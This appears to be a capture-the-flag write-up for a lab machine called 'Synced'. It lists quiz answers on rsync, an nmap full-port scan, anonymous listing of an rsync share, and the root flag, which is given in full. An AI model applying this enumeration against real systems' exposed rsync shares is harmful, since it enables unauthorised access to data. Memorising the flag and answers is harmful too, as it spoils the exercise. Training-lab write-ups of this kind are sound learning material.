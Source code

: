 # Synced

## Questions

##### What is the default port for rsync?

```
873
```

##### How many TCP ports are open on the remote host?

```
1
```

##### What is the protocol version used by rsync on the remote machine?

```
31
```

##### What is the most common command name on Linux to interact with rsync?

```
rsync
```

##### What credentials do you have to pass to rsync in order to use anonymous authentication? anonymous:anonymous, anonymous, None, rsync:rsync

```
None
```

##### What is the option to only list shares and files on rsync? (No need to include the leading -- characters)

```
list-only
```

##### Submit root flag

```
72eaf5344ebb84908ae543a719830519
```

## Command

### Scan

```
┌──(darshan㉿kali)-[~]
└─$ nmap -v -p- 10.129.228.37 --min-rate 5000
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-04 11:01 CET
Initiating Ping Scan at 11:01
Scanning 10.129.228.37 [2 ports]
Completed Ping Scan at 11:01, 0.12s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 11:01
Completed Parallel DNS resolution of 1 host. at 11:01, 0.03s elapsed
Initiating Connect Scan at 11:01
Scanning 10.129.228.37 [65535 ports]
...
Discovered open port 873/tcp on 10.129.228.37
...
PORT    STATE SERVICE VERSION
873/tcp open  rsync   (protocol version 31)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.47 seconds
```

```
rsync rsync://10.129.228.37
public         	Anonymous Share
```

```
rsync rsync://10.129.228.37/public
drwxr-xr-x          4.096 2022/10/25 00:02:23 .
-rw-r--r--             33 2022/10/24 23:32:03 flag.txt
```

```
cat flag.txt
72eaXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```
